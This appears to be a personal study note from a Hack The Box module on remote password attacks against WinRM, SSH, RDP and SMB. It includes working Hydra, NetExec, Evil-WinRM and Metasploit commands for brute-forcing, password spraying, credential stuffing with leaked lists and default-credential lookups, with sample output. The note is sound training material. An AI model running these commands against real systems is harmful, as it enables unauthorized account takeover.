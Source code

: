 ```yaml
---
Title: HTB\Password Attacks\Remote Password Attacks
tags:
  - os/windows
  - os/linux- cybersec
source: HTB\Password Attacks\Remote Password Attacks
---
```


# HTB\Password Attacks\Remote Password Attacks

> Źródło: `HTB\Password Attacks\Remote Password Attacks`

WinRM
Windows Remote Management (WinRM) is the Microsoft implementation of the Web Services Management Protocol (WS-Management).
It is a network protocol based on XML web services using the Simple Object Access Protocol (SOAP) used for remote management of Windows systems.
It takes care of the communication between Web-Based Enterprise Management (WBEM) and the Windows Management Instrumentation (WMI),
which can call the Distributed Component Object Model (DCOM).
By default, WinRM uses the TCP ports 5985 (HTTP) and 5986 (HTTPS).

A handy tool that we can use for our password attacks is NetExec (https://github.com/Pennyw0rth/NetExec),
which can also be used for other protocols such as SMB, LDAP, MSSQL, and others.
We recommend reading the official documentation(https://www.netexec.wiki/) for this tool to become familiar with it.

NetExec
The general format for using NetExec is as follows:
Ovas420@htb[/htb]$ netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>

As an example, this is what attacking a WinRM endpoint might look like:
Ovas420@htb[/htb]$ netexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)

The appearance of (Pwn3d!) is the sign that we can most likely execute system commands if we log in with the brute-forced user.
Another handy tool that we can use to communicate with the WinRM service is Evil-WinRM (https://github.com/Hackplayers/evil-winrm),
which allows us to communicate with the WinRM service efficiently.

Evil-WinRM Usage
Ovas420@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
Ovas420@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\user\Documents>

If the login was successful, a terminal session is initialized using the Powershell Remoting Protocol (MS-PSRP), which simplifies the operation and execution of commands.

SSH
This service uses three different cryptography operations/methods: symmetric encryption, asymmetric encryption, and hashing.
Symmetric encryption uses the same key for encryption and decryption. Anyone who has access to the key could also access the transmitted data.
Therefore, a key exchange procedure is needed for secure symmetric encryption.
The Diffie-Hellman key exchange method is used for this purpose.

Asymmetric encryption uses two keys: a private key and a public key.
The private key must remain secret because only it can decrypt the messages that have been encrypted with the public key.

The hashing method converts the transmitted data into another unique value.
SSH uses hashing to confirm the authenticity of messages. This is a mathematical algorithm that only works in one direction.

We can use a tool like Hydra to brute force SSH.
Ovas420@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

To log in to the system via the SSH protocol, we can use the OpenSSH client, which is available by default on most Linux distributions.
Ovas420@htb[/htb]$ ssh user@10.129.42.197

RDP
Microsoft's Remote Desktop Protocol (RDP) is a network protocol that allows remote access to Windows systems via TCP port 3389 by default.
RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization

We can also use Hydra to perform RDP bruteforcing.
Ovas420@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197

Linux offers different clients to communicate with the desired server using the RDP protocol.
These include Remmina, xfreerdp, and many others. For our purposes, we will work with xfreerdp.

xFreeRDP
xfreerdp /v:<target-IP> /u:<username> /p:<password>

Server Message Block (SMB) is a protocol responsible for transferring data between a client and a server in local area networks.
It is used to implement file and directory sharing and printing services in Windows networks.
SMB is often referred to as a file system, but it is not. SMB can be compared to NFS for Unix and Linux for providing drives on local networks.

SMB is also known as Common Internet File System (CIFS).
It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS.
In addition, we will often encounter Samba, which is an open-source implementation of the above functions.
For SMB, we can also use hydra again to try different usernames in combination with different passwords.

Hydra - SMB
Ovas420@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
However, we may also get the following error describing that the server has sent an invalid reply.
[ERROR] invalid reply from target smb://10.129.42.197:445/
This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies.
To work around this problem, we can manually update and recompile hydra or use another very powerful tool, the Metasploit framework.

Metasploit
Ovas420@htb[/htb]$ msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_login

Now we can use NetExec again to view the available shares and what privileges we have for them.
Ovas420@htb[/htb]$ netexec smb 10.129.42.197 -u "user" -p "password" --shares

SMB         10.129.42.197   445    WINSRV           [*] Windows 10.0 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.42.197   445    WINSRV           [+] WINSRV\user:password
SMB         10.129.42.197   445    WINSRV           [+] Enumerated shares
SMB         10.129.42.197   445    WINSRV           Share           Permissions     Remark
SMB         10.129.42.197   445    WINSRV           -----           -----------     ------
SMB         10.129.42.197   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.42.197   445    WINSRV           C$                              Default share
SMB         10.129.42.197   445    WINSRV           SHARENAME       READ,WRITE
SMB         10.129.42.197   445    WINSRV           IPC$            READ            Remote IPC

To communicate with the server via SMB, we can use, for example, the tool smbclient(https://www.samba.org/samba/docs/current/man-html/smbclient.1.html).
This tool will allow us to view the contents of the shares, upload, or download files if our privileges allow it.

Ovas420@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME

Spraying Stuffing and Defaults
Password spraying is a type of brute-force attack in which an attacker attempts to use a single password across many different user accounts.
This technique can be particularly effective in environments where users are initialized with a default or standard password.
For example, if it is known that administrators at a particular company commonly use ChangeMe123! when setting up new accounts,
it would be worthwhile to spray this password across all user accounts to identify any that were not updated.

Depending on the target system, different tools may be used to carry out password spraying attacks.
For web applications, Burp Suite is a strong option, while for Active Directory environments, tools such as NetExec or Kerbrute are commonly used.

netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'

Credential stuffing is another type of brute-force attack in which an attacker uses stolen credentials from one service to attempt access on others.
Since many users reuse their usernames and passwords across multiple platforms (such as email, social media, and enterprise systems), these attacks are sometimes successful.
As with password spraying, credential stuffing can be carried out using a variety of tools, depending on the target system.
For example, if we have a list of username:password credentials obtained from a database leak,
we can use hydra to perform a credential stuffing attack against an SSH service using the following syntax:
Ovas420@htb[/htb]$ hydra -C user_pass.list ssh://10.100.38.23

Many systems—such as routers, firewalls, and databases—come with default credentials.
While best practice dictates that administrators change these credentials during setup, they are sometimes left unchanged, posing a serious security risk.
While several lists of known default credentials are available online, there are also dedicated tools that automate the process.
One widely used example is the Default Credentials Cheat Sheet, which we can install with pip3.
Ovas420@htb[/htb]$ pip3 install defaultcreds-cheat-sheet
Once installed, we can use the creds command to search for known default credentials associated with a specific product or vendor.

Ovas420@htb[/htb]$ creds search linksys

Default credentials cheat list: https://github.com/ihebski/DefaultCreds-cheat-sheet

**Powiązane:** [[Graph-Home]] [[OS-Windows]] [[OS-Linux]]
